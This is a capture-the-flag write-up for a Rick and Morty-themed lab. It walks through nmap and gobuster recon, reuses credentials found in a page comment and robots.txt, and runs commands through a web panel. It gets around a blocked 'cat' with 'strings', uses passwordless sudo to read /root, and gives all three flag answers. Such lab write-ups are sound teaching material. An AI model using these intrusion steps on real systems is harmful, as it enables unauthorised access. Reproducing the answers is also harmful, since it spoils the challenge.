





# Pickle Rick
*This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.*

*Deploy the virtual machine on this task and explore the web application*

## Exploring the homepage
The homepage of the web application shows a Rick and Morty themed image and a message from Rick:
```
Help Morty!

Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!
```

I inspected the source page and found the Username in a comment:
```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
Afterwards I visited the `/assets` path shown in the code but nothing interesting to be found apart js files and a couple of jpeg.




## Quick Recon Nmap Scan
I should have probably done this directly at the beginning but here it comes:
```bash
~# nmap -Pn -top-ports 1000 -T4 10.112.143.246
Starting Nmap 7.80 ( https://nmap.org ) at 2026-04-06 09:01 BST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 10.112.143.246
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
```
- `-Pn` : Skip host discovery, threat all hosts as online
- `-top-ports N`: Scan the N most commonly used TCP ports
- `T4`: Aggressive timing, fast without being reckless

## Directory Brute-forcing with Gobuster
Before starting gobuster I tried a couple of paths manually and found `/robots.txt` with this content:
```
Wubbalubbadubdub
```
This could be the password to the Username found before! 

I started enumeration using Gobuster with the `common.txt` wordlist:
```bash
~# gobuster dir -u 10.112.143.246 -x php,html,txt,pdf -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.112.143.246
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,pdf
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/.hta.html            (Status: 403) [Size: 279]
/.hta.txt             (Status: 403) [Size: 279]
/.hta.php             (Status: 403) [Size: 279]
/.hta.pdf             (Status: 403) [Size: 279]
/.htaccess.txt        (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htaccess.html       (Status: 403) [Size: 279]
/.htaccess.php        (Status: 403) [Size: 279]
/.htaccess.pdf        (Status: 403) [Size: 279]
/.htpasswd.php        (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswd.pdf        (Status: 403) [Size: 279]
/.htpasswd.html       (Status: 403) [Size: 279]
/.htpasswd.txt        (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/assets               (Status: 301) [Size: 317]
/denied.php           (Status: 302) [Size: 0]
/index.html           (Status: 200) [Size: 1062]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0]
/robots.txt           (Status: 200) [Size: 17]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 279]
Progress: 23070 / 23075 (99.98%)
===============================================================
Finished
===============================================================
```
- `dir`: Option for brute-forcing directories and files
- `-u`: Target URL or Domain
- `-x`: Appends following file extensions to wordlist entries to find specific file types
- `-w`: Path to wordlist

**Bingo! a login page!**

I navigated to `/login.php`, found a **Portal Login Page** and entered the credential found earlier:
- R1ckRul3s
- Wubbalubbadubdub

Those credentials worked and a **Command Panel** opened. I also checked the other pages listed in the top menu but with no results: **Only the REAL rick can view this page..**





## Fiddling with the Command Panel
I tried a couple of commands like `ls, pwd, whoami` and they worked. This behaved as a linux shell. 



### First Ingredient
```bash
pwd
/var/www/html

whoami
www-data

ls -al
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```
**First ingredient spotted.** 

I tried `cat Sup3rS3cretPickl3Ingred.txt` but this throwed an error, the page displayed a Mr. Meeseeks gif with this text:  
`Command disabled to make it hard for future PICKLEEEE RICCCKKKK.`



I proceeded using `strings Sup3rS3cretPickl3Ingred.txt`, which revealed Ingredient number 1: **mr. meeseek hair**

### Second Ingredient
For the second ingredient I had no clues, so I read `clue.txt`:
`Look around the file system for the other ingredient.`

- I started `/`:
```bash
ls -al /

total 112
drwxr-xr-x  23 root root  4096 Apr  6 07:34 .
drwxr-xr-x  23 root root  4096 Apr  6 07:34 ..
drwxr-xr-x   2 root root 12288 Jul 11  2024 bin
drwxr-xr-x   3 root root  4096 Jul 11  2024 boot
drwxr-xr-x  16 root root  3240 Apr  6 07:34 dev
drwxr-xr-x 108 root root 12288 Apr  6 07:34 etc
drwxr-xr-x   4 root root  4096 Feb 10  2019 home
lrwxrwxrwx   1 root root    30 Jul 11  2024 initrd.img -> boot/initrd.img-5.4.0-1103-aws
lrwxrwxrwx   1 root root    30 Jul 11  2024 initrd.img.old -> boot/initrd.img-4.4.0-1128-aws
drwxr-xr-x  25 root root  4096 Jul 11  2024 lib
drwxr-xr-x   2 root root  4096 Jul 11  2024 lib64
drwx------   2 root root 16384 Nov 14  2018 lost+found
drwxr-xr-x   2 root root  4096 Jul 11  2024 media
drwxr-xr-x   2 root root  4096 Nov 14  2018 mnt
drwxr-xr-x   2 root root  4096 Nov 14  2018 opt
dr-xr-xr-x 175 root root     0 Apr  6 07:34 proc
drwx------   4 root root  4096 Jul 11  2024 root
drwxr-xr-x  32 root root  1020 Apr  6 08:33 run
drwxr-xr-x   2 root root 12288 Jul 11  2024 sbin
drwxr-xr-x   8 root root  4096 Jul 11  2024 snap
drwxr-xr-x   2 root root  4096 Nov 14  2018 srv
dr-xr-xr-x  13 root root     0 Apr  6 07:34 sys
drwxrwxrwt   2 root root  4096 Apr  6 07:34 tmp
drwxr-xr-x  11 root root  4096 Jul 11  2024 usr
drwxr-xr-x  14 root root  4096 Feb 10  2019 var
lrwxrwxrwx   1 root root    27 Jul 11  2024 vmlinuz -> boot/vmlinuz-5.4.0-1103-aws
lrwxrwxrwx   1 root root    27 Jul 11  2024 vmlinuz.old -> boot/vmlinuz-4.4.0-1128-aws
```
The content was shown without problems, good. I decided to explore `/home` first and there I found the next ingredient:
```bash
ls -al /home

total 16
drwxr-xr-x  4 root   root   4096 Feb 10  2019 .
drwxr-xr-x 23 root   root   4096 Apr  6 07:34 ..
drwxrwxrwx  2 root   root   4096 Feb 10  2019 rick
drwxr-xr-x  5 ubuntu ubuntu 4096 Jul 11  2024 ubuntu

ls -al /home/rick

total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients

strings /home/rick/second\ ingredients

1 jerry tear
```
Ingredient number 2: **1 jerry tear**

### Third Ingredient
For the last ingredient I had really zero clues.  
Since it's the last Flag, a probable guess could be `/root`, which would implicate some privilege escalation, since I don't have access to it.

The command `su` is out of options, since I dont have the root password and since there is no way for me to enter a password from the Command Panel.  
I tried listing the root content with sudo `sudo ls -al /root` and it worked without entering the password (I'm probably allowed to use sudo commands without entering password. I confirmed this later typing `sudo -l`)
```bash
sudo ls -al /root`

total 36
drwx------  4 root root 4096 Jul 11  2024 .
drwxr-xr-x 23 root root 4096 Apr  6 07:34 ..
-rw-------  1 root root  168 Jul 11  2024 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-------  1 root root  702 Jul 11  2024 .viminfo
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  4 root root 4096 Jul 11  2024 snap
```

**Last ingredient spotted!**
```bash
sudo strings /root/3rd.txt

3rd ingredients: fleeb juice
```

After entering it the room was finally completed! ☺

